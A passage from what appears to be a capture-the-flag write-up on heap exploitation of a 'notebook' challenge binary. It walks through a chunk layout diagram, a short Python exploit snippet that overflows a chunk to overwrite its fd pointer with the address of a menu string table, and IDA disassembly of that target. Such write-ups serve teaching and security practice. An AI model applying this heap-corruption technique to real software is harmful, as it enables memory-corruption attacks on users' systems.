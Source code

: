 ```c
0x55555....260                 0x55555....300
|      0x55555....2a0                |  0x55555....320
|            |    0x55555....2e0     v       v
v            v               v       [--notebook[0]--]
[--notebook--+--notebook[1]--+--notebook[2]--+--notebook[3]--]
```

You can see this in gdb:

![image-20210206220508510](image-20210206220508510.png)

Programmatically, 

```python
menu_lines = 0x404020	# we want to write to here
r.sendlineafter('how big your notebook will be: ', '7')
add(1, b'hi')
add(2, b'A'*0x20 + pack(menu_lines) + pack(0))
add(3, b'\0')
flip()
```

In this case, we're overwriting the `fd` of the `0x55555....300` chunk with the magic address `0x404020`. Why? In IDA Pro, this is what `0x404020` represents:

```c
.data:0000000000404020 menu_lines      dq offset aMenu         ; DATA XREF: show_menu+2A↑o
.data:0000000000404020                                         ; "----- Menu -----"
.data:0000000000404028                 dq offset a1AddToYourNote ; "1. Add to your notebook"
.data:0000000000404030                 dq offset a2FlipYourNoteb ; "2. Flip your notebook!"
.data:0000000000404038                 dq offset a3Exit        ; "3. Exit"
.data:0000000000404040 aMenu           db '----- Menu -----',0 ; DATA XREF: .data:menu_lines↑o
```
